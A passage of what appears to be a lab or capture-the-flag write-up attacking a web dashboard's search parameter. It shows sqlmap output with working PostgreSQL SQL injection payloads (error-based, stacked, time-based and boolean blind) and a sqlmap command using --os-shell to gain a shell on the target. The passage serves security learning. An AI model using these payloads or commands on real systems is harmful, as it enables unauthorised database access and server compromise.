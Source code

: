 ```
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=any query' AND 5276=CAST((CHR(113)||CHR(122)||CHR(98)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (5276=5276) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(118)||CHR(112)||CHR(112)||CHR(113)) AS NUMERIC)-- LMgD

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=any query';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=any query' AND 4021=(SELECT 4021 FROM PG_SLEEP(5))-- akZU
---
[18:31:44] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[18:31:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.129.239.5'

[*] ending @ 18:31:44 /2022-09-27/
```


Tool confirmed that is is vulnerable to SQL injection

Attempt to get a shell with ```--os-shell``` flag.

Command
```bash
sqlmap -u 'http://10.129.239.5/dashboard.php?search=any+query' --cookie="PHPSESSID=1a5mp168lht1niqkdrjh277q48" -os-shell
```

Result
```
        ___
       __H__                                                                                                                                       
 ___ ___["]_____ ___ ___  {1.6.7#stable}                                                                                                           
|_ -| . ["]     | .'| . |                                                                                                                          
|___|_  [.]_|_|_|__,|  _|                                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:37:25 /2022-09-27/

[18:37:25] [INFO] resuming back-end DBMS 'postgresql' 
[18:37:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=any query' AND (SELECT (CASE WHEN (8985=8985) THEN NULL ELSE CAST((CHR(111)||CHR(73)||CHR(100)||CHR(98)) AS NUMERIC) END)) IS NULL-- HRtV

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
```